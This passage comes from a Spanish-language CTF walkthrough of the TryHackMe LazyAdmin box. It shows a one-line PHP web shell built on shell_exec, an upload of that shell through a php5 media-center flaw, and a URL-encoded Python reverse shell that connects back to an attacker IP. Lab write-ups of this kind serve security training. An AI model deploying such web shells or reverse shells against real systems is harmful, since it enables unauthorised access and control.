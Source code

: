 ```bash
        print("[+] URL : http://" + host + "/attachment/" + filename)
        pass
```

El exploit nos dice que en la ruta `as/?type=media_center` podemos subir un archivo de extensión `php5`. Así que vamos a crear nuestro archivo malicioso.

```bash
❯ catn k4mishell.php5
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```

Una vez que lo subimos, nos dirigimos en la ruta `attachment`:

![""](/assets/images/thm-lazyadmin/lazyadmin8.png)

![""](/assets/images/thm-lazyadmin/lazyadmin9.png)

Tenemos ejecución de comandos a nivel de sistema, por lo que nos aventamos una reverse shell de python de acuerdon con [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```bash
http://10.10.224.5/content/attachment/k4mishell.php5?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.9.85.95%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```
